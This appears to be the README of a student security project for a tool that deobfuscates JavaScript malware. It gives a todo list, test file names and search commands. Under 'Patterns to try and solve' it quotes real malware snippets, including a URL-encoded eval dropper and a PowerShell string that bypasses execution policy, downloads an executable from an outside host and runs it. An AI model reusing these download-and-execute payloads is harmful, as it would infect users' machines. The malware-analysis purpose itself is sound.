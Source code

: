 # aau-security
Web application security project

## PyWare

Tool for analyzing JavaScript malware

To test the tool it is suggested to look at [HynekPetrak/javascript-malware-collection](https://github.com/HynekPetrak/javascript-malware-collection)

### Potential good files to test

* `20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js`
* `20170118_e2e16d7c80ecd56b18d8b159cfda06bf.js`
* `20170323_05a3cc924d4c8c0699f8d72342482e51.js`
* `0160517_14d08a9ae081077e81db242655153c4b.js` -- Mentions Denmark?
* `20170301/20170301_bf55dc97b611f894f3550515d45a4171.js`
* `20170412_5a0493b8e4e62ae6455d848b644c21a3.js` -- Maybe a pretty good next step to be able to handle this file 

### PyWare todo

- [x] Handle simple string concatenations like `var t4 = "ht"+"tp";`
- [x] Handle string concatenations with declared string variables like `t4 + ":"+ter+ter` where *t4* is the *t4* assigned above
- [ ] Perform substring manipulations such as `var yYIMi = feuJN.substring(n, n+(304-303));` find more with `ag "\."substring"\("`
- [ ] Handle trivial arrays of strings
- [ ] Look more into reverse, split, join, charCodeAt and  charAt


### Patterns to try and solve

**Url encoding**

`20160328_509659787b4b25701f16c342ecb991fd.js`
```JavaScript
eval(keyHooks("_%20%3D%20%28%22WScr%22%29%2C%20superMatcher%20%3D%20%28%22Obje%22%29%3Bcontains%20%3D%20%28%22Slee%22%29%3B%20disabled%20%3D%20%28%22TP.3.%22%29%3B%20removeEventListener%20%3D%20%28%22T%22%29%3B%20overflowY%20%3D%20%28%22Sl%22%29%3Bstate%20%3D%20%285%29%3B%20needsContext%20%3D%20%28%22.6.0%22%29%3Belem%20%3D%20%28%22un%22%29%2C%20option%20%3D%20%28%22verX%22%29%3BpreDispatch%20%3D%20%2827%29%3Bfix%20%3D%20%28%22teObje%22%29%3B%20idx%20%3D%20%2889%29%3B%20dest%20%3D%20%28%22s%22%29%3B%20defaultExtra%20%3D%20%2829%29%3B%20first%20%3D%20%28%22op%22%29%3Bexpand%20%3D%20%28%22ADO%22%29%3B%20scale%20%3D%20%28%22Msxm%22%29%3B%20seekingTransport%20%3D%20%2864%29%3B%20all%20%3D%20%28%22Expan%22%29%3B%20timeout%20%3D%20%28%22hel%22%29%3B%20seed%20%3D%20%28%22t.cor%22%29%3Bvar%20bind%20%3D%20%28%22ateObj%22%29%2C%20winnow%20%3D%20%28%22eep%22%29%2C%20toggle%20%3D%20%282%29%2C%20textContent%20%3D%20%28%22rt%22%29%2C%20old%20%3D%20%281%29%3Bvar%20finalValue%20%3D%20%28%22/NOZ8%22%29%3BdefaultView%20%3D%20%2841%29%3B%20cached%20%3D%20eval%3B%20i%20%3D%20%28%22SaveT%22%29%3B%20match%20%3D%20%28%22totype%22%29%3B%20rxhtmlTag%20%3D%20%28%22ty%22%29%3BpostFinder%20%3D%20%28%22LHT%22%29%3B%20dataAndEvents%20%3D%20%28%22t%22%29%3B%20isPlainObject%20%3D%20%28%22uctor%22%29%3B%20rtypenamespace%20%3D%20%28%22iro%22%29%3B%20returned%20%3D%20%28122%29%3B%20get%20%3D%20%28%22d%22%29%3Bw%20%3D%20%289%29%3B%20cacheLength%20%3D%20%28%22Msxml%22%29%3B%20camelCase%20%3D%20%28%22length%22%29%3B%20css%20%3D%20%28%22P.6.%22%29%3BmozMatchesSelector%20%3D%20%28%22e%22%29%2C%20createFxNow%20%3D%20%28%22%3A//eku%22%29%2C%20cssPrefixes%20%3D%20%28218%29%3Bvar%20completeDeferred%20%3D%20%28%228JY.%22%29%2C%20safeActiveElement%20%3D%20%28function%20documentIsHTML%28%29%7B%7D%2C%20%22Stream%22%29%3Bvar%20triggered%20%3D%20%28%22stat%22%29%2C%20dataFilter%20%3D%20%28%22http%22%29%3BcreateCache%20%3D%20%2837%29%2C%20nativeStatusText%20%3D%20%28%22Micros%22%29%2C%20addToPrefiltersOrTransports%20%3D%20%28%22P%25/%22%29%2C%20getComputedStyle%20%3D%20%28function%20documentIsHTML.getAttribute%28%29%7Bvar%20nodeNameSelector%3D%20%5B%5D%5B%22constr%22%20+%20isPlainObject%5D%5B%22pro%22%20+%20match%5D%5B%22so%22%20+%20textContent%5D%5B%22apply%22%5D%28%29%3B%20return%20nodeNameSelector%3B%7D%2C%20%22WScrip%22%29%3Bwhat%20%3D%20%2814%29%3BcssFn%20%3D%20%28%22.com/%22%29%2C%20_queueHooks%20%3D%20%28%22verXML%22%29%2C%20undelegate%20%3D%20%28%22WSc%22%29%2C%20callbackName%20%3D%20%28%22MLHTT%22%29%3Bpop%20%3D%20%28%22n%22%29%2C%20rfxtypes%20%3D%20%28%22trings%22%29%2C%20noCloneChecked%20%3D%20%28%22nseBo%22%29%2C%20bubbleType%20%3D%20%28%22.XMLH%22%29%3Bbinary%20%3D%20%28%22dyS%22%29%2C%20nodeName%20%3D%20%28162%29%2C%20compareDocumentPosition%20%3D%20%28%22icc%22%29%3Brquery%20%3D%20%28114%29%3B%20left%20%3D%20%28%22.XM%22%29%3BnodeValue%20%3D%20%28%22pt%22%29%3B%20mapped%20%3D%20%28200%29%3B%20result%20%3D%20%283%29%3B%3B"));
// Url deded string
= ("WScr"), superMatcher = ("Obje");contains = ("Slee"); disabled = ("TP.3."); removeEventListener = ("T"); overflowY = ("Sl");state = (5); needsContext = (".6.0");elem = ("un"), option = ("verX");preDispatch = (27);fix = ("teObje"); idx = (89); dest = ("s"); defaultExtra = (29); first = ("op");expand = ("ADO"); scale = ("Msxm"); seekingTransport = (64); all = ("Expan"); timeout = ("hel"); seed = ("t.cor");var bind = ("ateObj"), winnow = ("eep"), toggle = (2), textContent = ("rt"), old = (1);var finalValue = ("/NOZ8");defaultView = (41); cached = eval; i = ("SaveT"); match = ("totype"); rxhtmlTag = ("ty");postFinder = ("LHT"); dataAndEvents = ("t"); isPlainObject = ("uctor"); rtypenamespace = ("iro"); returned = (122); get = ("d");w = (9); cacheLength = ("Msxml"); camelCase = ("length"); css = ("P.6.");mozMatchesSelector = ("e"), createFxNow = ("://eku"), cssPrefixes = (218);var completeDeferred = ("8JY."), safeActiveElement = (function documentIsHTML(){}, "Stream");var triggered = ("stat"), dataFilter = ("http");createCache = (37), nativeStatusText = ("Micros"), addToPrefiltersOrTransports = ("P%/"), getComputedStyle = (function documentIsHTML.getAttribute(){var nodeNameSelector= []["constr"   isPlainObject]["pro"   match]["so"   textContent]["apply"](); return nodeNameSelector;}, "WScrip");what = (14);cssFn = (".com/"), _queueHooks = ("verXML"), undelegate = ("WSc"), callbackName = ("MLHTT");pop = ("n"), rfxtypes = ("trings"), noCloneChecked = ("nseBo"), bubbleType = (".XMLH");binary = ("dyS"), nodeName = (162), compareDocumentPosition = ("icc");rquery = (114); left = (".XM");nodeValue = ("pt"); mapped = (200); result = (3);;
```

This patterns seems common, where meaningful strings are breaked by some kind of variable

```
var aznecad = "cmd.exe /c " + amgizann + "  $hemip='^emp+''\ebbydlu.';$ylqilgi='^wnloadFile(''ht';$pequ='^tp://seehasena';$yxfefb='^Scope    Process;';$yhoz='^olicy    Bypass -';$ryhu='^$path); Start-';$yqyv='^exe'');(New-Obj';$vilwidt='^s/outloo.exe'',';$jiwa='^Set-ExecutionP';$wxagyz='^chter.de/Style';$obsesu='^Process $path';$kwezcof='^ect   System.Net';$anezsy='^.Webclient).Do';$iculci='^ $path=($env:t'; Invoke-Expression ($jiwa+$yhoz+$yxfefb+$iculci+$hemip+$yqyv+$kwezcof+$anezsy+$ylqilgi+$pequ+$wxagyz+$vilwidt+$ryhu+$obsesu);\"";
```

```
var _87g6sd5fg = _87867t67t6gt["En"+"vi"+""+"ron"+"men"+"t"]("SY"+"S"+"T"+"E"+"M");
```

### Commands to help handle 40GB malware

We have ~40GiB JavaScript malware, spread in 39480 files selecting good files for debugging and testing can be challenging, the following command is a nice start.

It tries to find string concatenations and it uses [ag](https://github.com/ggreer/the_silver_searcher).

```
ag \"\ "\+"\ \"
```

To find and cat the files from the list use

```
find -name "*20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js" -exec cat {} +
```

Another satisfying command to try is

```
ag \"\;"\n"
```

String concatenation with array
```
 ag \]\ "\+"\ \"
 ```

Var assignments starting with a string

```
 ag "(var )(([a-zA-Z])([a-zA-Z0-9$_])*)( = \")(([a-zA-Z0-9$_/:%.?=&()\-\,])*)(\")"
 ```
